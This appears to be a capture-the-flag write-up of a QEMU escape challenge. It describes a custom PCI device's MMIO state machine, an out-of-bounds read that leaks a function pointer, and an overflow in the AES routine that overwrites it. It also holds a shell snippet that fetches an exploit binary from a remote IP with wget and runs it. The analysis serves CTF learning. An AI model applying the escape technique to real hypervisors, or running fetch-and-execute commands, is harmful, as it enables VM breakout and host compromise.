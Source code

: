 # QWCT
qemu escape

## device

with qwb
```bash
# lspci
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e
00:01.1 Class 0101: 8086:7010
00:02.0 Class 0300: 1234:1111
00:01.0 Class 0601: 8086:7000
00:04.0 Class 00ff: 1234:8848

## knowledge
`edu.c`改的`mmio`

涉及的数据结构：
```C
struct QwbState
{
  PCIDevice_0 pdev;
  MemoryRegion_0 mmio;
  QemuThread_0 thread;
  QemuMutex_0 crypto_statu_mutex;
  QemuMutex_0 crypto_buf_mutex;
  crypto_status crypto;
};
```
其中`crypto`
```C
struct crypto_status
{
  __uint64_t statu;
  __u_char crypt_key[2048];
  __u_char input_buf[2048];
  __u_char output_buf[2048];
  _Bool (*encrypt_function)(__u_char *, __u_char *, __u_char *);
  _Bool (*decrypt_function)(__u_char *, __u_char *, __u_char *);
};
```

## 逻辑
分`read`和`write`
### read
- 0 init (status 5非法) ->0
- 1 set status 0->3, 2->3
- 2 set status 0->1, 4->1
- 3 set status 3->4
- 4 set status 1->2
- 5 set aes_encrypt_function(status 2)
- 6 set aes_decrypto_function(status 2)
- 7 同 5
- 8 同 6
- 9 enc(status 2) 2->5 6
- A dec(status 2) 2->7 8
- default

### write
- addr 0,0x1800 (status 3)
- addr 18000, 28000 (status 1)

## leak
可以看到`output_buf`和`encrypt_function`是靠在一起的，

读`output`的时候，对地址进行判断
```C
v18 = strlen((const char *)opaque->crypto.output_buf);
v19 = v17 == 1;
v20 = v17 == 1;
if ( addr < v18 + 0x3000 && v19 )
```
所以填满`output_buf`，采用`stream`加密即可

## vuln
在`aes_encrypt_function`中
```C
    while ( v18 != v5 );
    // 省略
  {
    v25 = 0LL;
  }
  *(_QWORD *)&o_v4[v7] = v25;
  return 1;
```
最后会在`output_buf`输出末尾加上`qword`，如果`output_buf`满的，那么就可以写`qwb->encrypt_function`指针

tips: `status`为0的时候不会清楚`encrypt`和`decrypt`函数指针。


```bash
rm exp_io
wget http://177.168.76.2:8000/exp_io
chmod +x exp_io
./exp_io

b qwb_mmio_read
```
其在`aes`加密之后，还8字节的进行异或，这里需要一定的计算
![](images/now.jpg)

```gdb
b aes_encrypt_function

8bytes = [8bytes list] ^ [8bytes list] ....
output_buf append 8bytes
```
![](images/over_pointer.jpg)

## exp



![](images/success.png)

